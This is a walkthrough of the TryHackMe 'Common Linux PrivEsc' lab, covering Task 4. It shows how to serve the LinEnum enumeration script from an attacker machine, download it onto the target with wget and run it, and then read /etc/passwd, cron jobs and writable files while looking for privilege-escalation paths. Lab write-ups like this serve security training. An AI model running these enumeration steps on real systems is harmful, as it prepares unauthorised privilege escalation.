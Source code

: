 ```yaml
---
title: Common Linux PrivEsc detailed write-up | TryHackMe
published: true
---
```

Tasks **1**, **2** and **3** don't need explanation.

## Task 4

To get LinEnum on the target's machine, you need to start a server on your local machine (it has to be in the directory where you store LinEnum.sh or you will have to provide the path to it afterwards) and connect to it from the target :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/python%20listener%20server4.png" class="border" />
 
```
python3 -m http.server 8000
```

>The `-m` option is used to search a module and run the corresponding python script, which in this case is an http server.
>The number 8000 is the port that our server will be listening in, you can select any port that's not being used.

Once the server is started, you can request the file you want from the target's console :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/wget%20linenum4.png" class="border" />

```
wget <YOUR MACHINE'S @IP>:8000/LinEnum.sh
```

>`wget` is a network downloader
>By using this command, we are downloading the file `LinEnum.sh` from the server in <YOUR MACHINE'S @IP> that we started before.


Now that LinEnum.sh is on the target's machine, we need to make it executable (because we need to run it in order to start the enumeration process), this is done by using :

```
chmod +x LinEnum.sh
```

To see how Linux file permissions work, you can visit [this page](https://www.redhat.com/sysadmin/manage-permissions) 

Let's now look at how many "user[x]" are there in the system :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/grep%20user4.png" class="border" />

```
cat /etc/passwd | grep user*
```
>What we are doing with `cat` is showing in stdout (Standard Output) the contents of the file `/etc/passwd` and piping them into a `grep` command.
>
>`grep` allows us to look for patterns in texts, by typing `grep user*` we are searching for any pattern that contains the word "user" and any other character next to it (this is why we use the wildcard *)

<p class="answer">As we can observe, there are 8 user[x] in the system.</p>

For a beteter understanding of wildcards in Linux, you can visit [this page](https://geek-university.com/linux/wildcard/) 

The next step is to find how many shells are there on the system, to guess so, we need to start enumerating with `LinEnum.sh`.
You can run the script with :

```
./LinEnum.sh
```
>Remember that you have previously dowloaded it, given the proper permissions and you are working in the directory where it is located.

A better way of keeping our enumeration clean and easily manageable is to write the output of `LinEnum.sh` to a `.txt` file :

```
./LinEnum.sh > LinEnum.txt
```

> The file can be named as what you want, but I recommend using a name such as "LinEnum" or "Enumeration".

Once we have run the script, we can look for how many shels there are on the system :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/grep%20shell4.png" class="border" />

```
cat linEnum.txt | grep shell
```

**There are 4 shells in the system**

We are now asked what is the name of the bash script that is set to run every 5 minutes by cron.
Cron is used to automate tasks in Linux, its syntax can be a little bit tricky so if you need some more info you can have a look at [this site](https://linuxhandbook.com/crontab/)

Cron jobs are displayed in each user's /etc/crontab file, but since we run `LinEnum.sh` to do the work for us, we can just look for it at its output :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/grep%20crontab%204.png" class="border" />

```
cat linEnum.txt | grep crontab -C 10
```

>If you have read the previous tasks, you already know what this is doing, the only novelty is the `-C` option, which specifies how many lines of context you want to display.

**As shown in this output, the `autoscript.sh` file is located in `/home/user4/Desktop directory`**

Finally, we want to search for a file that has had its permissions changed, and now users are allowed to write to it :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/etc%20passwd%20perms4.png" class="border" />

```
find / -perm -200 2>/dev/null
ls -l /etc/passwd
```

>With the `find` command, we can look for files with concrete permissions by using the option `-perm`, to find files with user writing permissions we can look for `-200`, which shows every file which permissions are set to 200 or more.
>
>With `2>/dev/null`, we redirect the stderr (Standard Error) to /dev/null, which is kind of a "black hole" that discards all the data that is writen to it.
>
>For more info on stderr, visit [this page](https://www.howtogeek.com/435903/what-are-stdin-stdout-and-stderr-on-linux/). For more info on /dev/null, check [here](https://en.wikipedia.org/wiki/Null_device).
>
>A lot of files will be shown, but since /etc/passwd is such an important file, we can check its permissions with `ls -l` and see that it can be writen to.


## Task 5

<style>
  .border {   
  border-width: 0px;
  border-color: #7FFF00;
  border-style: groove;
  box-shadow: 0px 0px 8px #ADFF2F} 
 .answer {
 font-weight : bold
 box shadow : 0px 0px 2px #ADFF2F }
</style>
